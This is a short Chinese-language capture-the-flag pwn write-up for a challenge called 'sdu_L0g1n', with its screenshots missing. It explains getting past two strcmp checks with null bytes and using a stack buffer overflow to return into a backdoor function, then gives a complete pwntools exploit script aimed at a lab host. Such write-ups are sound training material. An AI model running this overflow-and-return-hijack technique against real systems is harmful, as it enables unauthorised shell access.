




# sdu_L0g1n

同样先checksec一下:


同样是64位且未开启栈保护
拖进IDA分析程序



发现有两次strcmp检测，我们需要绕过strcmp检测
可以通过后面加`\x00`的方法绕过
找到后门函数：


观察程序结构，我们可以考虑从main函数通过read的栈溢出溢出到后门函数的位置，这样就可以劫持后门函数获取shell权限
经过反复调试，exp为

```python
from pwn import *
 
r = remote("10.102.32.142", 26613)
offset = 0x40
 
r.sendline('SDUpwner\x00')
payload = b'N1nEmAN is C.o0O0OOOOL!\x00'+b'a'*offset +p64(0x4006C6)
r.sendline(payload)
r.interactive()
```




